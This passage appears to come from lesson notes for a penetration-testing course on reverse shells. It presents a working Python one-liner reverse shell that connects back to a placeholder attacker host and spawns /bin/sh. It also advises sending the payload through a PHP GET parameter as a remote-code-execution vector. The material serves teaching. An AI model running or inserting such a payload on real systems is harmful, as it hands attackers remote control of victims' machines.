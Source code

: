   ![ReverseShell](./Files/Images/Lesson12/reverseshell1.png)
* Basic source code for a Python reverse shell:  
![ReverseShell](./Files/Images/Lesson12/reverseshell2.png)
  * Remember, you connect back to your **attacker machine**.
  * Duplicating the file descriptors, 0, 1, and & 2 make the connection interactive.
* Often times this is minified.
  * On cheatsheets you will see this compressed to just one long line.  

    ```python
    python -c 'import os, socket; s=socket.socket(); s.connect((\"YOUR.HOST.IP.ADDRESS\",9001)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.system(\"/bin/sh\")'
    ```

  * This is so you can easily copy and paste it in your RCE vector!
  * Remember, you'll need to *set up a listener* to catch the reverse shell.  
  ![ReverseShell](./Files/Images/Lesson12/reverseshell3.png)
* Execute this with the RCE attack vector:
  * This payload has a lot of special characters...
  * It is best to send it thorugh the HTTP GET variable passed to PHP
